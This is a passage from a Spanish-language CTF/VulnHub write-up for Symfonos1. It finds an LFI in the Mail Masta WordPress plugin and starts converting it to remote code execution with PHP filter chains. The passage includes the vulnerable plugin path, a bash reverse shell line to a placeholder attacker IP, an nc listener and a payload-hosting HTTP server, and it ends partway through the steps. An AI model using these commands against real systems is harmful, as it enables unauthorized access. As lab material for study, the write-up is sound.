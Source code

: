 ```bash
searchsploit mail masta
WordPress Plugin Mail Masta 1.0 - Local File Inclusion    
WordPress Plugin Mail Masta 1.0 - Local File Inclusion (2)
WordPress Plugin Mail Masta 1.0 - SQL Injection           
```

Tenemos un **LFI** en esta ruta `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=` aquí os dejo un ejemplo.
[<img src="/assets/images/vulnhub/Symfonos1/captura1.png">](/assets/images/vulnhub/Symfonos1/captura1.png)
Podemos leer el archivo **/etc/passwd**, pero no vamos a ir por ahí, vamos a ganar acceso al sistema de una forma un poco más interesante.
# Explotación

Vamos a jugar con la herramienta [php_filter_chain_generator.py](https://github.com/synacktiv/php_filter_chain_generator/tree/main), cuando tenemos un **LFI** y podemos utilizar wrappers PHP, podemos tratar de convertir el **LFI** a un **RCE** mediante la utilización de esta herramienta.

La idea es hacer una reverse shell lo más corta posible, ya que así evitamos errores del servidor web, vamos por pasos.

1. Descargar el script [php_filter_chain_generator.py](https://github.com/synacktiv/php_filter_chain_generator/tree/main)

2. Crear el archivo "r" (por ejemplo)
	> echo 'bash -i >& /dev/tcp/TÚ-IP/443 0>&'

3. Ponernos en escucha por el puerto anterior con **nc**
	> nc -nlvp 443

4. Compartir un servidor HTTP con **Python** donde tengamos el archivo "r"
	> python3 -m http.server 80
